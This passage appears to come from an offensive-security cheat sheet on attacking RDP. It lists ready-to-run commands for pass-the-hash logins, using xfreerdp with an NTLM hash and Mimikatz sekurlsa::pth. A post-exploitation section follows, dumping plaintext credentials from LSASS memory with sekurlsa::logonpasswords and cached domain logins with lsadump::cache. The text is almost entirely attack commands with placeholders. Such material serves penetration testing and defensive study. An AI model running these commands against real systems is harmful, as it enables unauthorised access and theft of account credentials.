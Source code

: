 Use NTLM hashes to authenticate to RDP without knowing plaintext passwords

Using [xfreerdp](https://linux.die.net/man/1/xfreerdp)

```sh
xfreerdp /u:<administrator> /pth:<NTHASH> /v:<target> /cert:ignore
```

> [!info]-
>
> - `<NTHASH>`: NTLM hash for the administrator account

Using [[Mimikatz]] (*from a compromised machine*)

```sh
sekurlsa::pth /user:<administrator> /domain:<DOMAIN> /ntlm:HASH /run:"mstsc /v:<target>"
```

___






# Post-Exploitation


## Credential Harvesting

Extract credentials and authentication data from compromised RDP systems

Read credentials from LSASS memory for currently logged-on sessions using [[Mimikatz]]

```sh
sekurlsa::logonpasswords
```

> [!example]-
>
>
> ```sh
> mimikatz.exe
> ```
> ```sh
> privilege::debug
> ```
> ```sh
> sekurlsa::logonpasswords
> ```

Extract cached domain login entries Windows keeps using [[Mimikatz]]

```sh
lsadump::cache
```

> [!example]-
>
> ```sh
> mimikatz.exe
> ```
> ```sh
> privilege::debug
> ```
> ```sh
> lsadump::cache
> ```
